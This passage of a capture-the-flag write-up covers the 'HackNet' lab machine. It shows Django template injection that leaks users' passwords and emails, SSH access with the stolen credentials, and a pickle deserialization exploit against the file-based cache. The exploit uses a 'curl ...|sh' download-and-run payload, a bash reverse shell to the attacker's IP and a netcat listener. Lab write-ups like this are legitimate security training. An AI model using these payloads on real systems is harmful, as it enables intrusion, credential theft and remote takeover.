

Our plan was to exfil as much information as possible.

```shell
{{users.22.password}}
```

To achieve that we targeted the post of `packetpirat` because his post had the most likes so far and therefore allowed us to sift through all of the information tied to those users.

```shell
POST /profile/edit HTTP/1.1
Host: hacknet.htb
Content-Length: 853
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://hacknet.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7emPWANSh3kT6RER
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://hacknet.htb/profile/edit
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive

------WebKitFormBoundary7emPWANSh3kT6RER
Content-Disposition: form-data; name="csrfmiddlewaretoken"

3jQzLg8EENlXWRKREwmjxHz0gbgkeUXkKWA5ezu4UVobdC2yYonZAO7KCxp1yDXu
------WebKitFormBoundary7emPWANSh3kT6RER
Content-Disposition: form-data; name="picture"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary7emPWANSh3kT6RER
Content-Disposition: form-data; name="email"


------WebKitFormBoundary7emPWANSh3kT6RER
Content-Disposition: form-data; name="username"

{{users.1.password}}
------WebKitFormBoundary7emPWANSh3kT6RER
Content-Disposition: form-data; name="password"


------WebKitFormBoundary7emPWANSh3kT6RER
Content-Disposition: form-data; name="about"


------WebKitFormBoundary7emPWANSh3kT6RER
Content-Disposition: form-data; name="is_public"

on
------WebKitFormBoundary7emPWANSh3kT6RER--

```

```shell
GET /likes/15 HTTP/1.1
Host: hacknet.htb
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://hacknet.htb/explore
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive


```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

### Privilege Escalation to deepdive

After repeating the steps we gathered probably ever available password including the password of `deepdive` but not of `backdoor_bandit`.

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

So our next step was to login as `deepdive` but for that we needed his `email` which we conveniently also could get by adjusting our payload just a bit.

```shell
{{users.15.email}}
```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

With his `email` in our pockets we then could `login` as `deepdive`.

| Email                | Password  |
| -------------------- | --------- |
| deepdive@hacknet.htb | D33pD!v3r |


## Privilege Escalation to backdoor_bandit

The first thing that caught our attention was that the user `deepdive` hat made a `private comment` which also got a `like`.



In order to `repeat` our `attack` and to target `backdoor_bandit` which was one of the `contacts` of `deepdive`, we tried to `update` the username of `deepdive` with our `payload`.

But the changes did not got accepted by the application without having the `confirmation` made by the user send to his `email`. 

This was the functionality behind the `2FA` option on his profile.



So since we knew that we could also add whoever we wanted to our contacts, we tried to `add` our own `user` to the `contacts` of `deepdive` and then perform the `attack` via a different user.



We prepared our `payload` after we added ourselves to the `contacts` of `deepdive` and executed the attack.

```shell
{{users.18.password}}
```



```shell
POST /profile/edit HTTP/1.1
Host: hacknet.htb
Content-Length: 854
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://hacknet.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryu8HNGoShrlDrR2FA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://hacknet.htb/profile/edit
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive

------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="csrfmiddlewaretoken"

XfCtCjsoDkJ1BJ34wqaCJw4q6ifV04XHESmZ5COOTsMfSulLQibiMDCasEoCkNXR
------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="picture"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="email"


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="username"

{{users.18.password}}
------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="about"


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="is_public"

on
------WebKitFormBoundaryu8HNGoShrlDrR2FA--

```





```shell
GET /likes/23 HTTP/1.1
Host: hacknet.htb
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://hacknet.htb/profile/22
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive


```



Now the one thing to mention here was that the `ID` on the `likes` is not the same as on the `profile` of each user. Therefore it started with `0` which allowed us to get the `password` of `backdoor_bandit`.

```shell
{{users.0.password}}
```

```shell
POST /profile/edit HTTP/1.1
Host: hacknet.htb
Content-Length: 853
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://hacknet.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryu8HNGoShrlDrR2FA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://hacknet.htb/profile/edit
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive

------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="csrfmiddlewaretoken"

XfCtCjsoDkJ1BJ34wqaCJw4q6ifV04XHESmZ5COOTsMfSulLQibiMDCasEoCkNXR
------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="picture"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="email"


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="username"

{{users.0.password}}
------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="about"


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="is_public"

on
------WebKitFormBoundaryu8HNGoShrlDrR2FA--

```

```shell
GET /likes/23 HTTP/1.1
Host: hacknet.htb
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://hacknet.htb/profile/22
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive


```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

| Password         |
| ---------------- |
| mYd4rks1dEisH3re |

We tried to login via `SSH` using `backdoor_bandit` as `username` but it failed. Because of that we also dumped his `email` which revealed his actual `username` called `mikey`.

```shell
{{users.0.email}}
```

```shell
POST /profile/edit HTTP/1.1
Host: hacknet.htb
Content-Length: 850
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://hacknet.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryu8HNGoShrlDrR2FA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://hacknet.htb/profile/edit
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive

------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="csrfmiddlewaretoken"

XfCtCjsoDkJ1BJ34wqaCJw4q6ifV04XHESmZ5COOTsMfSulLQibiMDCasEoCkNXR
------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="picture"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="email"


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="username"

{{users.0.email}}
------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="about"


------WebKitFormBoundaryu8HNGoShrlDrR2FA
Content-Disposition: form-data; name="is_public"

on
------WebKitFormBoundaryu8HNGoShrlDrR2FA--

```

```shell
<div class="likes-review-item"><a href="/profile/27"></a></div>
```

| Username | Password         |
| -------- | ---------------- |
| mikey    | mYd4rks1dEisH3re |

This allowed us to finally `login` to the box via `SSH` and grab the `user.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh mikey@hacknet.htb
The authenticity of host 'hacknet.htb (10.129.115.19)' can't be established.
ED25519 key fingerprint is SHA256:TVT7HGjgzl5Wk42d9xFlPlDUwhNCWjWA5Cdz6MdUC9o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Linux hacknet 6.1.0-38-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.147-1 (2025-08-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep 14 02:42:57 2025 from 10.10.16.33
mikey@hacknet:~$
```

## user.txt

```shell
mikey@hacknet:~$ cat user.txt 
fa0244ee78a2b436417b23fc93f2755a
```

## Enumeration (mikey)

As `mikey` we performed our basic `enumeration` and found another user on the box called `sandy`.

```shell
mikey@hacknet:~$ id
uid=1000(mikey) gid=1000(mikey) groups=1000(mikey)
```

```shell
mikey@hacknet:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
mikey:x:1000:1000:mikey,,,:/home/mikey:/bin/bash
tcpdump:x:102:110::/nonexistent:/usr/sbin/nologin
sandy:x:1001:1001::/home/sandy:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:997::/var/log/laurel:/bin/false
```

| Username |
| -------- |
| sandy    |

```shell
mikey@hacknet:~$ ls -la
total 44
drwx------ 6 mikey mikey 4096 Sep  4 15:01 .
drwxr-xr-x 4 root  root  4096 Jul  3  2024 ..
lrwxrwxrwx 1 root  root     9 Sep  4 15:01 .bash_history -> /dev/null
-rw-r--r-- 1 mikey mikey  220 May 31  2024 .bash_logout
-rw-r--r-- 1 mikey mikey 3526 May 31  2024 .bashrc
drwxr-xr-x 3 mikey mikey 4096 May 31  2024 .cache
drwx------ 3 mikey mikey 4096 Jun  2  2024 .config
-rw------- 1 mikey mikey   20 Jul  3  2024 .lesshst
drwxr-xr-x 4 mikey mikey 4096 Jul  8  2024 .local
lrwxrwxrwx 1 root  root     9 Aug  8  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 mikey mikey  807 May 31  2024 .profile
lrwxrwxrwx 1 root  root     9 May 31  2024 .python_history -> /dev/null
drwx------ 2 mikey mikey 4096 Dec 28  2024 .ssh
-rw-r--r-- 1 mikey mikey    0 Jun 19  2024 .sudo_as_admin_successful
-rw-r----- 1 root  mikey   33 Sep 13 15:01 user.txt
```

After finding nothing in the home directory of mikey we checked the `web root` and found the file `settings.py` which not only contained `credentials` for the `database`, it also gave us a critical hint for the `privilege escalation` to `sandy`.

```shell
mikey@hacknet:/var/www/HackNet/HackNet$ cat settings.py 
from pathlib import Path
import os

BASE_DIR = Path(__file__).resolve().parent.parent

SECRET_KEY = 'agyasdf&^F&ADf87AF*Df9A5D^AS%D6DflglLADIuhldfa7w'

DEBUG = False

ALLOWED_HOSTS = ['hacknet.htb']

INSTALLED_APPS = [
    'django.contrib.admin',
    'django.contrib.auth',
    'django.contrib.contenttypes',
    'django.contrib.sessions',
    'django.contrib.messages',
    'django.contrib.staticfiles',
    'SocialNetwork'
]

MIDDLEWARE = [
    'django.middleware.security.SecurityMiddleware',
    'django.contrib.sessions.middleware.SessionMiddleware',
    'django.middleware.common.CommonMiddleware',
    'django.middleware.csrf.CsrfViewMiddleware',
    'django.contrib.auth.middleware.AuthenticationMiddleware',
    'django.contrib.messages.middleware.MessageMiddleware',
    'django.middleware.clickjacking.XFrameOptionsMiddleware',
]

ROOT_URLCONF = 'HackNet.urls'

TEMPLATES = [
    {
        'BACKEND': 'django.template.backends.django.DjangoTemplates',
        'DIRS': [],
        'APP_DIRS': True,
        'OPTIONS': {
            'context_processors': [
                'django.template.context_processors.debug',
                'django.template.context_processors.request',
                'django.contrib.auth.context_processors.auth',
                'django.contrib.messages.context_processors.messages',
            ],
        },
    },
]

WSGI_APPLICATION = 'HackNet.wsgi.application'

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'NAME': 'hacknet',
        'USER': 'sandy',
        'PASSWORD': 'h@ckn3tDBpa$$',
        'HOST':'localhost',
        'PORT':'3306',
    }
}

CACHES = {
    'default': {
        'BACKEND': 'django.core.cache.backends.filebased.FileBasedCache',
        'LOCATION': '/var/tmp/django_cache',
        'TIMEOUT': 60,
        'OPTIONS': {'MAX_ENTRIES': 1000},
    }
}

AUTH_PASSWORD_VALIDATORS = [
    {
        'NAME': 'django.contrib.auth.password_validation.UserAttributeSimilarityValidator',
    },
    {
        'NAME': 'django.contrib.auth.password_validation.MinimumLengthValidator',
    },
    {
        'NAME': 'django.contrib.auth.password_validation.CommonPasswordValidator',
    },
    {
        'NAME': 'django.contrib.auth.password_validation.NumericPasswordValidator',
    },
]

SESSION_ENGINE = 'django.contrib.sessions.backends.db'

LANGUAGE_CODE = 'en-us'

TIME_ZONE = 'UTC'

USE_I18N = True

USE_L10N = True

USE_TZ = True

STATICFILES_STORAGE = 'django.contrib.staticfiles.storage.StaticFilesStorage'
STATIC_ROOT = os.path.join(BASE_DIR, 'static')
STATIC_URL = '/static/'

MEDIA_ROOT = os.path.join(BASE_DIR, 'media')
MEDIA_URL = '/media/'

DEFAULT_AUTO_FIELD = 'django.db.models.BigAutoField'
```

| Username | Password      |
| -------- | ------------- |
| sandy    | h@ckn3tDBpa$$ |

## Privilege Escalation to sandy

### CVE-2021-33026: Django Remote Code Execution (RCE) through Insecure Deserialization

It took a while but we noticed the use of `django_cache` which was vulnerable to `CVE-2021-33026` aka `Remote Code Execution (RCE)` in `Django` through `Insecure Deserialization`.

```shell
<--- CUT FOR BREVITY --->
CACHES = {
    'default': {
        'BACKEND': 'django.core.cache.backends.filebased.FileBasedCache',
        'LOCATION': '/var/tmp/django_cache',
        'TIMEOUT': 60,
        'OPTIONS': {'MAX_ENTRIES': 1000},
    }
}
<--- CUT FOR BREVITY --->
```

- [https://hackerone.com/reports/1415436](https://hackerone.com/reports/1415436)

First we set `inotifywait` on the `/var/tmp/django_cache/` folder and then triggered our previous `payload` again via the `web application`.

What we immediately saw was that some `temporary files` were created inside the directory.

```shell
mikey@hacknet:/var/tmp/django_cache$ inotifywait -m /var/tmp/django_cache/ -e create,modify,move
Setting up watches.
Watches established.
/var/tmp/django_cache/ CREATE tmpqg8xzzsk
/var/tmp/django_cache/ MODIFY tmpqg8xzzsk
/var/tmp/django_cache/ MOVED_FROM tmpqg8xzzsk
/var/tmp/django_cache/ MOVED_TO 1f0acfe7480a469402f1852f8313db86.djcache
/var/tmp/django_cache/ CREATE tmpivys8xhz
/var/tmp/django_cache/ MODIFY tmpivys8xhz
/var/tmp/django_cache/ MOVED_FROM tmpivys8xhz
/var/tmp/django_cache/ MOVED_TO 90dbab8f3b1e54369abdeb4ba1efc106.djcache
```

Now we put a small `Python script` together to `serialize` a `payload` that gave us a `reverse shell` after it got `deserialized` by the `database`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/HackNet/files]
└─$ cat privesc.py 
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        # Change sandy's password or add SSH key
        cmd = "curl 10.10.16.33/x|sh"
        return os.system, (cmd,)

# Serialize the payload
payload = pickle.dumps(RCE())
encoded_payload = base64.b64encode(payload).decode()
print(encoded_payload)
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/HackNet/files]
└─$ python3 privesc.py 
gASVMAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBVjdXJsIDEwLjEwLjE2LjMzL3h8c2iUhZRSlC4=
```

Then we prepared the `payload` for our `reverse shell`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/HackNet/serve]
└─$ cat x 
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.16.33/9001 0>&1'
```

Since the files lived there only for a short time we created a `while loop` to `add` our `payload` to every `file` inside the folder and make it `accessible` and `executable` for every user.

```shell
mikey@hacknet:/var/tmp/django_cache$ while true; do for i in $(ls); do rm -f $i; echo 'gASVMAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBVjdXJsIDEwLjEwLjE2LjMzL3h8c2iUhZRSlC4=' | base64 -d > $i; chmod 777 $i; done; sleep 0.1; done
```

After that all was left to do was to trigger the execution again and we got a `shell` back as `sandy`.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.33] from (UNKNOWN) [10.129.124.198] 56904
bash: cannot set terminal process group (3691): Inappropriate ioctl for device
bash: no job control in this shell
sandy@hacknet:/var/www/HackNet$
```

## Enumeration (sandy)

From here on we proceed with business as usual and found something very unusual but logical through the steps so far. The user `sandy` was also member of the group of `www-data`.

```shell
sandy@hacknet:/var/www/HackNet$ id
id
uid=1001(sandy) gid=33(www-data) groups=33(www-data)
```

That allowed us to peak into the folder of `backups` inside `/var/www/HackNet/` which stored `encrypted database dumps`.

```shell
sandy@hacknet:/var/www/HackNet$ ls -la
ls -la
total 32
drwxr-xr-x 7 sandy sandy    4096 Feb 10  2025 .
drwxr-xr-x 4 root  root     4096 Jun  2  2024 ..
drwxr-xr-x 2 sandy sandy    4096 Dec 29  2024 backups
-rw-r--r-- 1 sandy www-data    0 Aug  8  2024 db.sqlite3
drwxr-xr-x 3 sandy sandy    4096 Sep  8 09:20 HackNet
-rwxr-xr-x 1 sandy sandy     664 May 31  2024 manage.py
